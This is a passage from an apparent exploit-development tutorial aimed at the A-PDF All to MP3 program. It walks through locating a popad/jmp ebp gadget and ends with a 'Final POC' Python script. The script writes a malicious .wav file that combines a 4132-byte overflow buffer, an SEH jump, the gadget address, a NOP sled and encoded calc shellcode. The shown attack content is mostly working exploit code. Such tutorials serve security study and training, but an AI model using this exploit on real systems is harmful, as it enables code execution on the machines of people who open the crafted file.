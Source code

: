 I don't know why normal `popad` won't work, so I used a `popad` and `jmp ebp` instead. We have the opcode now. Let's look for the address. I used dll first.
```sh
ModLoad: 00400000 00610000   C:\Program Files\A-PDF All to MP3\Alltomp3.exe
```
Nice, this place only has one address. Now we have all the pieces, and we have 4132 A because we use another software + 6_bites_jump + popad + jmp_ebp + nops + shellcode. The offset calculated buffer method does not change remains the same as the first software.

![windows](/assets/img/headers/windows-exploit-dev-part-2/win16.png)

Final POC.
```python

import socket

buffer = "\x41" * 4132
nseh = "\xeb\x06\x90\x90"  # Jump 6 bytes
popad ="\x7f\x80\x55\x00"  # 0055807f popad and jmp ebp opcode 61 ff e5
nops = "\x90" * 80         # Nops

#calc shellcode but be carefull this software contain a bad chars
shellcode = ("\xdb\xd0\xd9\x74\x24\xf4\xbf\x77\x1c\x78\x77\x5d\x31\xc9\xb1"
"\x33\x31\x7d\x17\x03\x7d\x17\x83\x9a\xe0\x9a\x82\x98\xf1\xd2"
"\x6d\x60\x02\x85\xe4\x85\x33\x97\x93\xce\x66\x27\xd7\x82\x8a"
"\xcc\xb5\x36\x18\xa0\x11\x39\xa9\x0f\x44\x74\x2a\xbe\x48\xda"
"\xe8\xa0\x34\x20\x3d\x03\x04\xeb\x30\x42\x41\x11\xba\x16\x1a"
"\x5e\x69\x87\x2f\x22\xb2\xa6\xff\x29\x8a\xd0\x7a\xed\x7f\x6b"
"\x84\x3d\x2f\xe0\xce\xa5\x5b\xae\xee\xd4\x88\xac\xd3\x9f\xa5"
"\x07\xa7\x1e\x6c\x56\x48\x11\x50\x35\x77\x9e\x5d\x47\xbf\x18"
"\xbe\x32\xcb\x5b\x43\x45\x08\x26\x9f\xc0\x8d\x80\x54\x72\x76"
"\x31\xb8\xe5\xfd\x3d\x75\x61\x59\x21\x88\xa6\xd1\x5d\x01\x49"
"\x36\xd4\x51\x6e\x92\xbd\x02\x0f\x83\x1b\xe4\x30\xd3\xc3\x59"
"\x95\x9f\xe1\x8e\xaf\xfd\x6f\x50\x3d\x78\xd6\x52\x3d\x83\x78"
"\x3b\x0c\x08\x17\x3c\x91\xdb\x5c\xb2\xdb\x46\xf4\x5b\x82\x12"
"\x45\x06\x35\xc9\x89\x3f\xb6\xf8\x71\xc4\xa6\x88\x74\x80\x60"
"\x60\x04\x99\x04\x86\xbb\x9a\x0c\xe5\x5a\x09\xcc\xc4\xf9\xa9"
"\x77\x19")

exploit=buffer + nseh + popad + nops + shellcode

try:
    use= open("POPAD.wav",'w')
    use.write(exploit)
    use.close()
    raw_input("\nExploit file created!\n")

except:
    print "Cannot create"
```
